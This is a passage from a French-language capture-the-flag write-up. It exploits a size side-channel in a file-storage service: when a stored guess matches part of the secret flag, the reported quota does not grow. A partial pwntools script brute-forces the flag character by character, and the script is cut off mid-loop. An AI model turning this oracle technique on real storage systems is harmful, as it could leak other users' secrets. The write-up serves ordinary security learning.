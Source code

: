 ```
Stored! Here's your file id:
6gv6YmlHRsypXyzC

Menu:
- load
- store
- status
- exit
status
User: ctfplayer
Time: Sun Jul 18 22:25:05 2021
Quota: 0.026kB/64.000kB
Files: 2

Menu:
- load
- store
- status
- exit
```

Nous voyons bien que la taille n'a pas changé, elle est toujours de **0.026kb** après le stockage de ``CTF{``.

Nous pouvons donc connaitre le flag car si le(s) caractère(s) ajouté à ``CTF{`` ne correspondent pas à une partie du flag, la taille augmentera.

Il faut donc réaliser un script pour tester caractères par caractères la suite du flag :

```python
import pwn
import string

def testChar(partFlagFound):
    possibleChars = " "+string.printable[:-6]
    quota2 = b""
    for char in possibleChars :

        nc.recvline() #Menu:
        nc.recvline() #- load
        nc.recvline() #- store
        nc.recvline() #- status
        nc.recvline() #- exit

        nc.sendline("store".encode()) # store
        nc.recvline() # Send me a line of data...
        nc.sendline(partFlagFound.encode()+char.encode()) # CTF{....
        nc.recvline() # Stored! Here's your file id:
        nc.recvline() # recv file id
        nc.recvline() # line feed (\n)

        nc.recvline() #Menu:
        nc.recvline() #- load
        nc.recvline() #- store
        nc.recvline() #- status
        nc.recvline() #- exit

        nc.sendline("status".encode()) # status
        nc.recvline() # User
        nc.recvline() # Time
        quota = nc.recvline() # Quota
        nc.recvline() # Files
        nc.recvline() # line feed (\n)

        if quota == quota2:
```